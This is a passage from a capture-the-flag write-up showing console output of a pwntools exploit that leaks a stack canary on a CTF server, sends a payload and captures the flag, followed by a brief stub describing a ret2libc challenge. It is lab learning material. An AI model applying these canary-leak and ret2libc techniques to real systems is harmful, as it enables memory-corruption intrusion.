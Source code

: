 ```
[fml@DCLXVI:~]$python canary.py 
[+] Opening connection to shell.actf.co on port 20701: Done
[?] Canary:0x2025a303ba77b200
[?] Canary redone
\x00w\xba\x03% 
[?] Payload sent
[?] Recall main(), flag()
[?] Enter through process
[*] Switching to interactive mode
Cock-a-doodle-doo! Cock-a-doodle-doo!

        .-"-.
       / 4 4 \
       \_ v _/
       //   \\
      ((     ))
=======""===""=======
         |||
         '|'

Ahhhh, what a beautiful morning on the farm!
And my canary woke me up at 5 AM on the dot!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Hi! What's your name? $ 
Nice to meet you, $ 
!
Anything else you want to tell me? actf{youre_a_canary_killer_>:(}
Segmentation fault
[*] Got EOF while reading in interactive
$  
```

flag: actf{youre_a_canary_killer_>:(}
<br>
Overall this was a fun challenge, i hadnt encountered stack canaries in x64 binaries before so i found it good to research how to get around them with a leak and how pwntools can do the messy work.

# Challenge 3 - LIBrary in c

coming soon.

This challenge was similar again but with another step up, along with leaking the canary, we needed to leak the base (or relevant address) of libc to create a ret2libc exploit instead of a traditional overflow.
